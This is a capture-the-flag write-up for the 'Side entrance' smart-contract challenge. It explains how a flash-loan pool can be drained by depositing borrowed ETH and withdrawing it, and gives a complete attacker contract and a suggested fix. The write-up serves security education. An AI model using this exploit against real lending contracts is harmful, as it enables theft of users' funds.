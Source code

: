 # Side entrance

## Challenge

A surprisingly simple lending pool allows anyone to deposit ETH, and withdraw it at any point in time.

This very simple lending pool has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.

You must take all ETH from the lending pool.

## Solution

We start analyzing the `flashLoan` function of the pool contract

```solidity
function flashLoan(uint256 amount) external {
    uint256 balanceBefore = address(this).balance;
    require(balanceBefore >= amount, "Not enough ETH in balance");

    IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

    require(address(this).balance >= balanceBefore, "Flash loan hasn't been paid back");
}
```

We observe that this runs the `execute`function in the contract stored in the address `msg.sender`, and sends the borrowed amount with it. On the other hand, this pool offers two additional methods

```solidity
function deposit() external payable {
    balances[msg.sender] += msg.value;
}

function withdraw() external {
    uint256 amountToWithdraw = balances[msg.sender];
    balances[msg.sender] = 0;
    payable(msg.sender).sendValue(amountToWithdraw);
}
```

Notice that anyone that deposits value in this pool is able to retrieve it afterwards. An attacker can profit from this by using the borrowed money to deposit it in the pool. In this case, the total balance of the pool will not change and the flashloan will be finalized. However, when this is done, the attacker being the depositer now has the access to the funds via the withdraw function. And that is it. Let us now implement the attacker contract in [AttackerSideEntrance.sol](./AttackerSideEntrance.sol)

```solidity
contract AttackerSideEntrance {

    fallback() external payable {}

    function attack(address _pool, uint256 amount) public {
        IPool(_pool).flashLoan(amount);
        IPool(_pool).withdraw();
        payable(msg.sender).transfer(address(this).balance);
    }

    function execute() external payable {
        IPool(msg.sender).deposit{value: msg.value}();
    }
}
```

First we need to import the pool contract or simply create an interface of it. In this case we created an interface called `IPool`. Then we create an `execute` function that takes the value from the loan and deposits it back to the pool. In order to execute the loan, we create an `attack` function that calls the `flashLoan` in `SideEntranceLenderPool.sol`. Once the flashloan is executed we can call the `withdraw` function. In order to receive funds in this attacker contract we should make it `payable` by adding a payable `fallback` function. Once the balance is in this contract, we transfer it to `msg.sender` which is the account launching the attack.

## Solving the issue

One way to block this hack could be to desactivate the `deposit` function while running the `flashLoan`. This can be done by setting the value of a toggle global variable to `false` when initiating the flashloan and requiring this variable to be true when depositing. Once the flashloan is executed the toggle variable would recover its `true` value. In this way, we make sure that during the `flashLoan` transaction the balance of the contract cannot be modified using the `deposit` function. Even if it is still possible to modify the balance by using a `selfdestruct`, these funds cannot be recovered via the `withdraw` function.
